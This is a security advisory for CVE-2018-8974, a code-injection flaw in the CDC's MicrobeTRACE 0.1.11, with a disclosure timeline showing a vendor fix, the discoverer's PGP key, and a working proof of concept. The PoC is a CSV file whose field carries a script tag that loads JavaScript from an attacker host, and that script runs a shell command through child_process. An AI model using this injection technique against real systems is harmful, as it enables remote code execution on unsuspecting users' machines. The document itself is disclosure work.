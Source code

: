 ### Description
MicrobeTRACE 0.1.11 allows remote attackers to execute arbitrary code, related to code injection via specially crafted CSV files.

### VulnerabilityType
Inclusion of Functionality from Untrusted Control Sphere (CWE-829)

### Vendor of Product
Centers for Disease Control and Prevention Surveillance Strategy (CDCgov)

### Affected Product Code Base
MicrobeTRACE 0.1.11

### Affected Component
| Component | Version | Hash |
| :-------------------------------- |:--------------------------------|:--------------------------------|
| MicrobeTRACE.exe	| 0.1.11 | 997e33089165286a364dc543174dc232 |

### Attack Type
Remote

### Impact Code execution
true

### Attack Vectors
Attackers can exploit this vulnerability by creating a specially crafted CSV file that subsequently injects and executes server side code.

### Reference
[Product Website](https://github.com/CDCgov/MicrobeTRACE) <br />
[Product Download](https://github.com/CDCgov/MicrobeTRACE/releases/tag/v0.1.11)
 
### Discoverer
West Shepherd <br />
wshepherd0010[at]gmail.com

### Advisory ID
CVE-2018-8974

### Report Timeline
| Date    						| Action          				   |
| :-------------------------------- |:--------------------------------|
| 3/23/2018      				|  Discovered vulnerability, contacted vendor, requested CVE. |
| 3/23/2018      				|  Vendor replied, working on fix. |
| 3/27/2018      				|  Vendor published fix for 0.1.11. |
| 4/24/2018                     |  Released details to public. |

### PoC

```js
/*
# Exploit Title: MicrobeTRACE 0.1.11 - Code Injection
# Google Dork: N/A
# Date: 4/24/2018
# Exploit Author: West Shepherd
# Vendor Homepage: https://github.com/CDCgov/MicrobeTRACE
# Software Link: https://github.com/CDCgov/MicrobeTRACE/releases/tag/v0.1.11
# Version: 0.1.11
# Tested on: Windows 7 x86-x64
# CVE : CVE-2018-8974.
*/

/* 
Steps to reproduce: 
1.) create pwn.js
2.) create exploit.csv
3.) run "python -m SimpleHTTPServer 80"
4.) load exploit.csv with MicrobeTRACE
*/

// contents of pwn.js
const exec = require('child_process').exec;

function os_func() {
    this.execCommand = function(cmd, callback) {
        exec(cmd, (error, stdout, stderr) => {
            if (error) {
                alert('exec error:' + error);
                return;
            }

            callback(stdout);
        });
    }
}

var os = new os_func();
os.execCommand('whoami', function (returnvalue) {    
    alert(returnvalue + ' has been pwned.');
});

// contents of exploit.csv (for 0.1.11)
/*
Source<script type="text/javascript" src="http://172.26.61.131/pwn.js"></script>,Target,Weight,distance
1807,1311,1,0.013987
1518,1311,15,0.013985
1481,1311,26,0.01398
1480,1311,12,0.01398
1422,1311,24,0.013978
*/

```

### PGP 
Contact West Shepherd wshepherd0010[at]gmail.com
```txt
-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: CryptUp 4.4.6 Gmail Encryption https://cryptup.org
Comment: Seamlessly send, receive and search encrypted email

xsFNBFnDyp4BEAC4UY0gKnyfWP2lpkosBNnS3GtvaplyHDIjWgGWDlXyDxrU
ZkfIzhacLWlGphPDA2AoR7zTqafOORTuUMZOeZn0pQiWSjWoK89ot2SD3nZr
VXRsPbUIO+aWAsmdQ6nNt4dCxfn/64ObsRGG0z9Tueas04urcHigmOEspd95
U5B5Ztkw4SdGP/WAFQ5uzeePW7hKLefKFDIsnr1r3LDKbJdTHk+57+5os49L
VU/pzEMleDEJQV/3QyIMKTdOJKAalmgFN+AfX12yuIuJaIDGLAFOrWBX/gOh
ufQEzrdmEEAYnu8ljO5fOWyBp6259RWSsu/zCITu+209l81fOsmlJEPfkoXx
HL69P1tnPzCpUO8SU9D4lIHGP1/NWYDZuDjocAfLwRiDQuRbOPXd8KIkAL8/
Mao+P/6x3Od3VGnX9MqngP2HAwxBdLvK12zX4wTwL1AVdBU3aGth7RaA7jPW
Aum5E0+9Z9wGymzQ4sbA3G3hxHVCnesMkKYPkj0JydXltNOIFNPUx32Cugiu
zOfjS82FVBoWpa49MqgZ+k+cBuQLdJ1udT0sNoLYTcfXGvQapS1GbIgzu1Du
K9/t2aSgZ/I4y80asM2pP5LhM4AUPG47JMR5/owR31ddMyvZktpYBubW9kdw
5pCXj1Nr5xkb1nGjQ7QtEW5zzorLdygQbkLxfQARAQABzSRXIFNoZXBoZXJk
IDx3c2hlcGhlcmQwMDEwQGdtYWlsLmNvbT7CwXUEEAEIACkFAlnDyqEGCwkH
CAMCCRANNlUoZx7ihAQVCAoCAxYCAQIZAQIbAwIeAQAAKioP/32RTICm7Z5u
2M2O7Qv3oBUaR+fsXKKEA7lVw1eRBrjjEa6Ef2p9M47ImSr7ROCVF3bJS9+H
hd0yeq6wPj5d3wRcqXeVodFqv7Hg4ukLLZgH8pyio2ksSONhiLk5NW5AiDSt
IOL3YyT7IuHPNCIrWymUlDCRR0yYx76xLT/U+S6F2ryFjCCFMGS3O01sTr/D
8uTS+kNTMIkJUyR9rfXx0xc5BPypTeI3YE0ZywmRujejQ1jySlAUhqBnyy/y
LS1meB5auZnBV2Pg4pac7lbTq0mQ15doWDWndsFJaV2Tq/eQc5VgmB9XMHac
2qwMh7QC1yEWQH5sQIJUuXZhe6NzzXIAmq8gW+iaW3jAY5ZtPWsA+bnwP0Sk
s5jzvMvvqU/MG5a7fN5GGUdwky7q+wNa0AIuvUE7jPtRVzHISOr6JR/MKwNQ
rRd2nLr9v0ZV06jTiu4iMdR9Xy5c188LvbrdWx7V0Tqss9jqX53sVTK8kLAF
uKg69R5kzzUeIs/CfGBdYb1XfnQIKvH2kjptv5FCE7spd9IWfLXZkzlTZ0KZ
oHdtCjCDwMS/XZUuIWCoK1DEdzTgbK+qqp0WA9EDT1pGAoG7vTzycqE12YGF
wllXP01LNB2A97ufcNOQFv2+gigdyi5a7YXvKjKkCOYqlqobb6w58PUayRGL
6JMFvXzy6EgPzsFNBFnDyp4BEADBiiGIfuUwfg5SIlhYW3rU6IjBs4aPNmtP
TvLgPmPcKULdKaGPUAQYq6j3Y/W4jlCjw+drKBJ8kHmY0fT2mxAiFAGaIPEP
gTGfB15yx1kgc2895q4PyZfQjSBYQN0Lhv+OvxUHF9aMgghxZiJf8jRV8+IP
8oGgrUIQ2O8kXEgWvJT1JspLzby+AoT1tVMld/rnPLr5i+1VVzsUXasI54A+
VkovhxI1PZzgnabutL2aXOW2TkzvqEZfqgGRE6p5W4X4WHqDSMqMR+1IKfCI
dWGFa5nnAIbkvlgt3wHR5042lDjqfAYruLu6cF16+iYocyB9/C2fr9G4PlP+
WHPWZt490G34nZGH5E/ANSNbU2H6sYvWg8WuR5t09X+OCy2gyyzm46GFeK40
CHIH2Xgu4fodBf6EW9z+kLBnKGzQaMXcyVJweZK0rM5RmXSLPxxNu/9rVVdG
vSymoYBCqqF7g8xU1dANrVh77ZqZY2z7u0ClGxJGZoOjk3lds+Jgx68s6jnF
jzPj/9Tox8Ca+fIw7+ziIhrPCmPXTyH4qOhFY6MH3YuGOZJXxn+xuxboEX51
af5IqX0v4ft+0NbCHaBHqjNeFHxmunBTjy1xEFgbu3QeagM38cpRzN4FNf0b
MkmTcCAC+PgL3p6GwuGiGPuYSHwieoYgszt/dLfrfR61P305gQARAQABwsFf
BBgBCAATBQJZw8qiCRANNlUoZx7ihAIbDAAAovoP/2iqMIdnT0BnVUUTiQ5Q
vOD09H6eamJ+hpOllp/uEnEmImhROPTzyFR/pg9cF9XYIo3WTKdXFp7LF2mt
f54T1np0oIqFa+9Xkt+qubsJ9/fp+IXigv2yThsdfTswaBuCQtKBblz6+Q+2
naC+U/v2G9IQmteiLFp2qKZurMnb6nrnaKpTsf/QyPge12hInvMX+GVWfa7+
EXgYSuvTBJN5xCLJaGtELBu6ujMna82l6St2/MlUUcs1JV2BhxvlDVxWO+1O
+ZXGcaMMapVNR9Mi316HowenYAI9u+cLAcT+uLWr7J7kBdMhDUshxQMV7p9v
k3lFKQmtIzZn3V/xPBgjyH3MSIJqI6b3bhvgDfPO8XbpOGfBiwze98zmyViX
bSeIGjOMTImt4nnlI7cZURdhYNx009Vvdv7gFD3+IMMNY9eBMCu3NeaNLwFB
ItWuu3EYqTo/vf74oV8H6Nbk/vPKTMsw/Fb5mFV2hb1cquD75N24BOwOgZ+/
qzG4ScaHc9D0Wrm2B1FUq9Kg1KmSHAKEb8JnLJdAiE6mcBa8Dugkw1llOytF
0uvT3HlWUUolkJTMka79jbPVm+bsSapDxi3X5fQmA7MQd4LWNZrzuvzVUfM5
cg+ylG97tbELsQx6rN8EqXIDBr9AOfv7n1i51LUwE8cGj2zEjXh/83BJqiAP
6/I9
=vCq5
-----END PGP PUBLIC KEY BLOCK-----


```
